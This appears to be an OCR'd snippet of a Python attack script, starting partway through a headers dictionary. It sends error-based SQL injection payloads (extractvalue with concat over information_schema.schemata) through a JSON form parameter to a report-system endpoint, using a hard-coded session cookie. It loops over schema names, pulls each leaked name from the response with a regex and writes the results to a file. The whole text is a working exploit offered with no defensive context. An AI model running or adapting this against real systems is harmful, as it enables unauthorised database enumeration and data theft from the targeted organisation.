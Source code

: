 ```python
           "Content-Type":"application/x-www-form-urlencoded",
           "Cookie":"JSESSIONID=4BB550BF10C606619B753D3CE52CD3AB"
           }

origin1 = '''[{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.单位名称","name":"单位名称","alias":"单位名称","value":"'''
origin2 = '''","displayValue":"'''
origin3 = '''"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所属机构","name":"所属机构","alias":"所属机构","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在省份","name":"所在省份","alias":"所在省份","value":"440000","displayValue":"广东"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在地市","name":"所在地市","alias":"所在地市","value":"","displayValue":"全部"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在区县","name":"所在区县","alias":"所在区县","value":"","displayValue":"全部"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.id","name":"id","alias":"检测机构id","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.填报时间起","name":"填报时间起","alias":"填报时间起","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.填报时间止","name":"填报时间止","alias":" 填报时间止","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.更新时间起","name":"更新时间起","alias":"更新时间起","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.更新时间止","name":"更新时间止","alias":"更新时间止","value":"","displayValue":""}]'''

for i in range(1,20):
    payload = "%' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit {0},1),0x7e)) and null = '%".format(i)
    # print(payload)
​    origin_full = origin1 + payload + origin2 + payload + origin3
    # print(origin_full)
​    url_encode_full = quote(origin_full)
    # print(url_encode_full)
​    rmi_encode = encode(url_encode_full)
    # print(rmi_encode)
​    encode_final = 'encode='+rmi_encode
​    data = {
​        "resid":"I40281d81016a8bc28bc20231016aaee007b230ac",
​        "clientId":"Iff8080810176f0c7f0c7544f0176f54eb72c1160",
​        "refreshType":"refresh",
​        "paramsInfoEncode":encode_final
​    }

    #proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
    
    r = requests.post(url,data=data,headers=headers,verify=False)
    #print(r.text)
    regex = r"~\w+~"
    match = re.search(regex,r.text).span() #返回第一个匹配到的结果的位置（1000,1005）
    database = r.text[match[0]+1:match[1]-1]
    print(r.text[match[0]:match[1]])
    
    with open('file.txt','a+') as f:
        f.write(database+'\n')
```
